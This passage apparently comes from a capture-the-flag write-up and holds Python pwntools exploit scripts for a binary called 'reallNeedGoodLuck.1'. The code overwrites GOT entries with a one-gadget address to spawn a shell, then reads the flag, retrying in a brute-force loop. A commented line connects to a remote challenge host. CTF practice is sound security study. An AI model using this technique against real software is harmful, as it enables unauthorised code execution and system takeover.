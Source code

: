 ```python
    ru('luck! ')
    sn(str(exit_got))
 
    ru('good')
    sleep(0.1)
    sn('\x00\x7a\xe2\x3d') # onegadget

    ru('luck! ')
    
    sn(str(setvbuf_got-1))
    sleep(0.1)
    sl('ls')
    sl('ls')
    ru('flag')
    sl('cat flag')


    irt()
while True:
    try:
        #io=remote('47.106.172.144',65003)
        io=process('./reallNeedGoodLuck.1')
        #debug()
        pwn()

    except:
        io.close()
        continue
```
## exp2 blast system
```python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ["/usr/bin/tmux","sp","-h"]
#io = remote('127.0.0.1', 6010)
# libc = ELF('./libc-2.31.so')
# io = process(['./test', 'real'])
#io = process('./reallNeedGoodLuck.1')
#libc=ELF('/glibc/2.23/64/lib/libc-2.23.so')
elf=ELF('./reallNeedGoodLuck.1')

#p=process(['./1'],env={'LD_PRELOAD':'./libc-2.27_64.so'})

l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, b'\x00'))
uu64 = lambda data		: u64(data.ljust(8, b'\x00'))
ur64 = lambda data		: u64(data.rjust(8, b'\x00'))


exit_got=elf.got['exit']
```